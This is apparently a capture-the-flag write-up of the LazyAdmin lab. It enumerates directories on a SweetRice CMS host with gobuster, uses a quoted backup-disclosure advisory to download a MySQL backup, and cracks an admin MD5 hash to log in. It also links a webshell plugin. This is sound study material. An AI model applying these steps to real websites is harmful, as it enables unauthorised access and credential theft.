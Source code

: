

http://10.10.195.175/

![[main80.png]]

just a default web server

brute forcing web server directories we find a new directory

```
gobuster dir -u http://10.10.195.175:80 -w /usr/share/wordlists/dirb/big.txt -o /opt/THM/LazyAdmin/2-enum/web/gob_dir.md
```

```
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.195.175/content/]
/server-status        (Status: 403) [Size: 278]
```

http://10.10.195.175/content/

![[content_dir.png]]


https://github.com/p0dalirius/SweetRice-webshell-plugin

guessed this directory from the github page

http://10.10.195.175/content/as/

![[sweetriceloginpage.png]]

this login form didn't reaaly lead anywhere, but after some searching for vulnerabilities

https://vulners.com/zdt/1337DAY-ID-26249

```
# SweetRice 1.5.1 - Backup Disclosure Vulnerability

Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
 
 
Proof of Concept :
 
You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup
 
and can access to website files backup from:
http://localhost/SweetRice-transfer.zip

#  0day.today [2018-02-19]  #
```

from  here we can imply a */inc* directory

http://10.10.195.175/content/inc/

![[content_inc.png]]

we can find the mysql backup file

http://10.10.195.175/content/inc/mysql_backup/

![[mysqlbakaccess.png]]


while we are at it, we can confirm what version of sweetrice cms is running

http://10.10.195.175/content/inc/lastest.txt

1.5.1


from the sql backup file that we downloaded we see the following contents

```
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
```

specifically this md5 looking hash

```
42f749ade7f9e195bf475f37a44cafcb
```

reversing the hash
```
Password123
```

back to the login page with these credentials. the username was the name/user next to that password hash in the backup file

http://10.10.195.175/content/as/

```
manager
Password123
```

successful login

![[sr-dashboard.png]]

